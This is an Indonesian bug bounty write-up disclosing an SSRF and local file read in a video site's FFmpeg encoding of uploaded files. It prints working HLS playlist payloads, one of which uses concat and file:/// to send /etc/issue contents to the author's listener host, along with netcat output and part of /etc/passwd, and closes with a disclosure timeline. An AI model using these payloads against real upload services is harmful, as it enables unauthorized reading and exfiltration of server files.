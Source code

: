 ```yaml
---
layout: post
title: XHamster SSRF Vulnerabillity
date: 2017-08-18 11:55:10 AM
permalink: /xhamster-ssrf-vulnerabillity/
---
```


XHamster merupakan situs streaming video dewasa yang cukup besar. Konten-konten **menarik** pada situs tersebut merupakan kontribusi dari para member XHamster, dengan kata lain, para member *meng-upload* video mereka ke situs tersebut. Bagi para *Bounty Hunter*, fitur *upload* terlihat seperti tambang emas yang siap untuk digali :) Maka dari itu, kami pun tertarik untuk mencoba mencari celah keamanan pada situs XHamster.

Seperti pada situs streaming lainnya, setiap video yang *diupload*, kemungkinan besar *di-encode* terlebih dahulu sebelum kemudian disajikan ke pengunjung. Kebanyakan situs video streaming menggunakan **FFMPEG** untuk *encoding* video pada situs mereka. Maka kami mencoba apakah benar XHamster menggunakan FFMPEG, dan apakah terdapat celah disana.

Pertama kami melakukan pengetesan sederhana dengan mengupload sebuah file video yang telah disisipi *payload* berikut:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
http://noobsec.org:1337/tes_ssrf
#EXT-X-ENDLIST
```

Setelah itu, *listen* di *server* pada port 1337, dan benar kami muncul *response* dari server XHamster:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /tes_ssrf HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Melihat dari *response* tersebut, maka kami berasumsi bahwa FFMPEG yang digunakan kemungkinan memiliki celah. Maka kami melanjutkan penetrasi lebih dalam untuk mencoba melihat *file* yang ada di server.

Kami sedikit memodifikasi file video yang akan diupload dan membuat 1 file baru dengan nama **header.m3u8**, dengan isi:

ssrf.avi
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
concat:http://noobsec.org:1337/header.m3u8|file:///etc/issue
#EXT-X-ENDLIST
```

header.m3u8	
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://noobsec.org:1337/ssrf_result?
```

Setelah diupload, dan kembali melakukan listen di server, maka muncul *response* seperti berikut:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /ssrf_result?Debian+GNU/Linux+8+\n+\l HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Dapat dilihat bahwa isi dari *file* /etc/issue adalah: **Debian GNU/Linux 8 \n \l**

Untuk bukti yang lebih kuat, maka kami mencoba untuk melihat file lain yang ada di server XHamster. Dengan sedikit modifikasi pada payload, kami berhasil mengambil isi file /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[ redacted ]
messagebus:x:104:107::/var/run/dbus:/bin/false
www:x:999:999::/home/www:/bin/sh
xhamster:x:998:998::/home/xhamster:/bin/sh
[ redacted ]
```

Kami mencoba untuk mengambil isi file-file lain seperti 000-default.conf dan file default lainnya, namun sepertinya XHamster tidak menggunakan default settings, dan kami kesulitan untuk menebak path dari file yang ada pada server mereka.

Untuk itu, kami rasa cukup sejauh ini penetrasi yang dilakukan dan kami langsung menghubungi XHamster terkait isu tersebut.

Timeline:
```
15 Agustus 2017 14:00 : Celah keamanan ditemukan
15 Agustus 2017 15:30 : Celah keamanan dilaporkan ke XHamster
15 Agustus 2017 16:15 : XHamster mengkonfirmasi bahwa celah keamanan tersebut valid
15 Agustus 2017 16:53 : XHamster menyatakan sedang melakukan perbaikan pada celah tersebut
15 Agustus 2017 21:40 : XHamster memberikan reward atas celah yang ditemukan
17 Agustus 2017 10:59 : Celah telah diperbaiki
```
Referensi: https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf
